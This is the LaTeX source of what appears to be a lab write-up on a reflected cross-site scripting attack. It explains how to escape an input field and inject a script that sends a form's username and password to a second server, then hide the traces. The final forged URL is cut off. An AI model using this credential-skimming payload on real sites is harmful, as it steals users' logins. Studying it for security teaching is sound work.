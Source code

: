 \documentclass[12pt]{scrartcl}
\begin{document}
We did this in the following steps (for readability we will not repeatedly print the IP to localhost, instead the placeholder \texttt{...} is used):
\begin{enumerate}[label=\arabic*.]
  \item To inject a \texttt{<script>}-block, we first need to escape the \texttt{<input>}-tag where the value of the parameter is inputted.
        This is done by starting with \texttt{...?uname=">}. This gives us:
        \begin{lstlisting}
Username: <input type="text" name="uname" id="uname" value="(*@\textcolor{red}{">}@*)"><br>
        \end{lstlisting}
  \item Now we can inject the \texttt{<script>}-block. The goal is to overwrite the \texttt{submit} function of the form and send the
        inputted values to some other server (in our case just \textit{localhost:8082} but it can be arbitrary). For this we used
        \texttt{document.forms[0].onsubmit = function() \{...\}}. Within this function block the context of \texttt{this} is the form itself.
        Hence, we can use \texttt{this.<field>.value} to obtain the values from the form, forge a request URL with these values and open 
        a new window with \texttt{window.open} to send these values to our server. This is done by the following JS code:
        \begin{lstlisting}
<script>
  document.forms[0].onsubmit = function() {
  let req = `http://localhost:8082?name=${this.uname.value}&pass=${this.password.value}`;
  window.open(req);}
</script>
        \end{lstlisting}
  \item Now we have something like this:
  \begin{lstlisting}
Username: <input type="text" name="uname" id="uname" value="(*@\textcolor{red}{"><script>...</script>}@*)"><br>
  \end{lstlisting}
  The final thing left to do is to remove all visual indicators of document manipulation. We have done this by ending the \texttt{uname}
  parameter with \texttt{<br style="display:none} to get rid of the dangling \texttt{>} which is breaking our document structure. Therefor,
  we get this:
  \begin{lstlisting}
    Username: <input type="text" name="uname" id="uname"
    value="(*@\textcolor{red}{\ttfamily"><script>...</script><br style="display:none>}@*)"><br>
  \end{lstlisting}
\end{enumerate}

The final forged URL is
\url{http://localhost:8081/?uname="><script>document.forms[0].%
Notice how we have also used the appropriate HTML encodings for special symbols.

\end{document}
